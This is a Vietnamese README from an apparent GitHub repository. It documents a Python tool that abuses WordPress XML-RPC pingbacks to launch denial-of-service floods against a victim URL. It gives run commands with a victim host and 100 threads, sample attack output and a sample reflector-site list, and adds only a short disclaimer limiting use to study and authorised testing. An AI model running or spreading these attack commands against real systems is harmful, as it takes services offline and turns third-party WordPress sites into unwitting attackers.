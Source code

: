 # XML-RPC Pingback DDoS Tool

## 📌 Giới thiệu
Script Python này giúp **tự động gửi request pingback qua xmlrpc.php** để mô phỏng tấn công **DDoS PoC** vào một URL mục tiêu.  
Người dùng cung cấp **file chứa danh sách URL bài viết WordPress**, script sẽ gửi pingback đến target qua các site này.

---

## 🚀 Tính năng
- ✅ Gửi pingback request thông qua xmlrpc.php.  
- ✅ Hỗ trợ chạy đa luồng để tăng tốc độ gửi request.  
- ✅ Tự động phân tích URL từ file input.

---

## 📂 Cấu trúc
```
.
├── pingback_ddos_auto.py   # Script chính
├── wp_sites.txt            # Danh sách URL bài viết WordPress
```

---

## 🔧 Cách sử dụng
### 1️⃣ Chạy script
```bash
python3 pingback_ddos_auto.py --host <victim_url> --file wp_sites.txt --threads 50
```
<img width="769" height="283" alt="image" src="https://github.com/user-attachments/assets/7b474894-b80b-4dc3-9a5a-fc9ec8a1ee7a" />

### 2️⃣ Tham số:
- `--host` → URL của nạn nhân (target của DDoS)  
- `--file` → File chứa danh sách URL bài viết WordPress (mặc định: wp_sites.txt)  
- `--threads` → Số luồng chạy song song (mặc định: 1)

---

## ⚡ Ví dụ chạy:
```bash
python3 pingback_ddos_auto.py --host http://victim.com --file wp_sites.txt --threads 100
[+] Pingback sent from http://site1.com
[-] http://site2.com returned status 403
```

---

## 📌 Ví dụ file `wp_sites.txt`
```
http://example1.com/2025/07/29/sample-post/
http://example2.com/2025/07/22/test-post/
http://example3.com/2025/07/22/blog-article/
```
<img width="1123" height="604" alt="image" src="https://github.com/user-attachments/assets/a96cec60-0928-411f-b154-d3bdde829685" />

---

## ⚠️ Lưu ý
⚠️ Tool chỉ phục vụ **mục đích học tập, nghiên cứu bảo mật, CTF hoặc pentest hợp pháp**.  
⚠️ **Tuyệt đối không sử dụng để tấn công hệ thống khi chưa có sự cho phép.**

---

## 📜 License
MIT License
